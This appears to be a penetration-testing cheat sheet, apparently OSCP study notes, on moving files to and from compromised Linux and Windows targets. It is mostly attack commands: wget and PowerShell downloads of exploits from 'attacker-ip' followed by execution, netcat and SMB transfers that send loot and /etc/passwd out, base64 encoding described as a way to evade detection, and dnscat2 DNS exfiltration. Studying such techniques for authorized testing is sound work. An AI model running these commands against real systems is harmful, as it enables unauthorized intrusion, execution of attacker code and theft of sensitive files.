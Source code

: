 ## **File Transfer Tools linux to window and window to linux**  

#### **1. SCP (Secure Copy - Over SSH)**  
- Uses SSH for secure file transfers.  
- Example:  
  ```bash
  scp exploit.py user@target-ip:/tmp/
  ```

#### **2. Rsync (Fast File Synchronization)**
- Useful for transferring multiple or large files.  
- Example:  
  ```bash
  rsync -avz exploit.py user@target-ip:/tmp/
  ```

#### **3. Netcat (Simple and Fast Transfer)**
- **Send File:**  
  ```bash
  nc target-ip 4444 < exploit.sh
  ```
- **Receive File:**  
  ```bash
  nc -lvp 4444 > received_exploit.sh
  ```

#### **4. Python HTTP Server**
- Quick and easy method to host files.  
- **On attacker machine:**  
  ```bash
  python3 -m http.server 8080
  ```
- **On target machine:**  
  ```bash
  wget http://attacker-ip:8080/exploit.sh
  ```

---

### **Advanced & Stealthy File Transfer Methods**  

#### **5. Curl & Wget (Built-in Linux Tools)**
- **Download file:**  
  ```bash
  curl -O http://attacker-ip/file
  ```
  or  
  ```bash
  wget http://attacker-ip/file
  ```

#### **6. PowerShell (For Windows Targets)**
- **Download a file using PowerShell:**  
  ```powershell
  Invoke-WebRequest -Uri "http://attacker-ip/file" -OutFile "C:\Users\Public\loot.exe"
  ```

#### **7. SMB (For Windows File Transfers)**
- **On attacker machine (Kali, start SMB server):**  
  ```bash
  impacket-smbserver share $(pwd) -smb2support
  ```
- **On target machine (Windows, download file):**  
  ```powershell
  copy \\attacker-ip\share\exploit.exe C:\Users\Public\
  ```

#### **8. FTP (When SSH & SMB are unavailable)**
- **On attacker machine (Start FTP server)**  
  ```bash
  python3 -m pyftpdlib -p 21
  ```
- **On target machine (Connect to FTP & download file)**  
  ```bash
  ftp attacker-ip
  get exploit.sh
  ```

#### **9. Base64 Encoding (Evade Detection)**
- **Encode file:**  
  ```bash
  base64 exploit.bin > exploit.b64
  ```
- **Transfer via Netcat, SSH, or Email, then decode on target:**  
  ```bash
  base64 -d exploit.b64 > exploit.bin
  ```

#### **10. DNS Exfiltration (Stealth Transfer)**
- **Using `dnscat2` (for bypassing network filters)**  
  ```bash
  dnscat2 attacker-ip
  ```

---
### **OSCP Real-World File Transfer Scenario**  
**Objective:** Transfer an **exploit script** from your **attacker machine (Kali)** to a **compromised target (Windows/Linux)** and retrieve loot files.  

---

## **Scenario 1: Windows Target (PowerShell + SMB Transfer)**
### **Situation:**  
- You have **low-privilege access** on a Windows machine via a **reverse shell**.  
- You need to **upload a privilege escalation script** and **exfiltrate loot files**.  

### **Attack Workflow**
#### **Step 1: Set Up an SMB Share on Kali**  
Use Impacket's `smbserver.py` to host a share on your attacker machine:  
```bash
impacket-smbserver sharename $(pwd) -smb2support
```

#### **Step 2: On Windows (Download File via PowerShell)**
In your Windows shell, execute:  
```powershell
copy \\attacker-ip\sharename\priv_esc.exe C:\Users\Public\priv_esc.exe
```
Then run the exploit:  
```powershell
C:\Users\Public\priv_esc.exe
```

#### **Step 3: Exfiltrate Loot (Upload to Kali via SMB)**  
Copy files back to your attacker machine:  
```powershell
copy C:\Users\Public\loot.txt \\attacker-ip\sharename\loot.txt
```

---

## **Scenario 2: Linux Target (Netcat + Python HTTP Server)**
### **Situation:**  
- You have **a low-privilege shell** on a **Linux machine**.  
- You need to **transfer LinPEAS.sh for privilege escalation** and retrieve a sensitive file.  

### **Attack Workflow**
#### **Step 1: Host the File on Kali (Python HTTP Server)**
On your attacker machine (Kali):  
```bash
cd /tmp
python3 -m http.server 8080
```

#### **Step 2: On the Linux Target (Download LinPEAS)**
From the low-privilege shell:  
```bash
wget http://attacker-ip:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

#### **Step 3: Exfiltrate Sensitive Files with Netcat**
On Kali (Listening for incoming file transfer):  
```bash
nc -lvp 4444 > loot.txt
```

On the compromised Linux machine (Sending the file):  
```bash
cat /etc/passwd | nc attacker-ip 4444
```

---

## **Scenario 3: Fully Restricted Environment (Base64 + Netcat)**
### **Situation:**  
- Your target **does not allow direct file downloads** (no `wget`, `curl`, `scp`).  
- **Solution:** Encode the file in **Base64**, transfer via Netcat, and decode on the target.  

### **Attack Workflow**
#### **Step 1: Encode the Exploit on Kali**
```bash
base64 exploit.sh > exploit.b64
```

#### **Step 2: Transfer with Netcat**
On Kali (Listening for transfer):  
```bash
nc -lvp 5555 < exploit.b64
```

On the target (Send file):  
```bash
nc attacker-ip 5555 > exploit.b64
```

#### **Step 3: Decode & Execute on Target**
```bash
base64 -d exploit.b64 > exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## **Summary**
| **Scenario** | **Method Used** | **Target OS** | **Stealth Level** |
|-------------|----------------|--------------|----------------|
| Windows PrivEsc | SMB + PowerShell | Windows |  Low (Can be logged) |
| Linux PrivEsc | Python HTTP + Netcat | Linux |  Medium |
| Restricted Transfer | Base64 + Netcat | Linux/Windows |  High (Evades Filters) |

